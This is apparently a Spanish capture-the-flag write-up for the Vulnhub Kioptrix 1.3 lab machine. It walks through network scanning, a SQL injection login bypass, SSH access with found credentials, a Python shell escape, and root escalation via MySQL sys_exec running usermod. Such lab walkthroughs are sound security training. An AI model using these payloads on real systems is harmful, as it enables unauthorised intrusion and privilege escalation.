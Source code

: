<p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=390&height=80&lines=KIOPTRIX_1.3"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/kioptrix-level-13-4,25/

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con Arp-Scan. 
```
arp-scan --interface eth0 -l
```
![1](https://user-images.githubusercontent.com/75953873/178128766-c1eb1f99-56e6-4449-a3f2-bf9345a59492.png)

IP host: `192.168.25.138`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.25.138
```
![2](https://user-images.githubusercontent.com/75953873/178128792-82993633-dc3c-4167-ab2c-4e0c05570d37.png)

Puertos abiertos: [22,80,139,445]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 22,80,139,445 -A 192.168.25.138
```
![3](https://user-images.githubusercontent.com/75953873/178128892-5d15426d-7724-4b96-ac14-8fa749662bc6.png)

![3 2](https://user-images.githubusercontent.com/75953873/178128937-364e11ba-8b5a-475b-a4c3-f5713ebe4d66.png)

Servidor corriendo: **HTTP Apache**

O.S: **Linux**

URL: `http://192.168.25.138`

![4](https://user-images.githubusercontent.com/75953873/178128981-b955ab0e-8efa-4d7b-a4a2-9ab170f6c50c.png)

La enumeración de directorios y archivos con Dirb encuentra un directorio llamado `john`, pero esté no revela nada relevante.
```
dirb http://192.168.25.138
```
![5](https://user-images.githubusercontent.com/75953873/178129062-4b519854-bfa5-469c-82a6-346010347a17.png)

![6](https://user-images.githubusercontent.com/75953873/178129075-842d66d2-e997-45c6-8cce-84d712f3c0db.png)

- *Paso 4:* Inyección SQL manual.

En el panel de login se debe ingresar el usuario `john` y la contraseña `' or 1=1-- -`.

![7](https://user-images.githubusercontent.com/75953873/178129163-cf68f241-8cbb-4d11-ac2a-50263173b630.png)

- *Paso 5:* Conectarse al servidor SSH.
```
ssh -oHostKeyAlgorithms=+ssh-dss john@192.168.25.138 -l john
```

Usuario: `john`

Contraseña: `MyNameIsJohn`

![8](https://user-images.githubusercontent.com/75953873/178129218-e0862b3b-4d30-44b2-8352-cc0e39f5d10c.png)

La shell se ejecuta dentro de un intérprete de python. Por lo  tanto, se debe salir de ella e ingresar al directorio raíz del servidor `/var/www`:
```
echo os.system('/bin/bash')
cd /www/var
cat checklogin.php
```
![9](https://user-images.githubusercontent.com/75953873/178129470-0903b88c-271e-4874-90a4-5fbcef300f1a.png)

- *Paso 5:* Iniciar sesión en el servidor MySQL.

Usuario: `root`

Contraseña: **sin contraseña**
```
mysql -u root -p
```
![10](https://user-images.githubusercontent.com/75953873/178129574-e42549f2-88dd-4a2b-8824-7bdce7f93d08.png)

El comando `usermod` otorgará a `john` al grupo de administradores (root).
```
select sys_exec('usermod -a -G admin john');
```
![11](https://user-images.githubusercontent.com/75953873/178129692-b62b22bc-5e6f-4611-8276-a9b38b75d4c7.png)

Por último, ejecutar `sudo su` para obtener una shell con privilegios e ingresar al directorio `/root`. La contraseña del root es la misma del servidor SSH.

![12](https://user-images.githubusercontent.com/75953873/178129723-9535e1cd-4441-4040-ae77-0711a3d604c0.png)
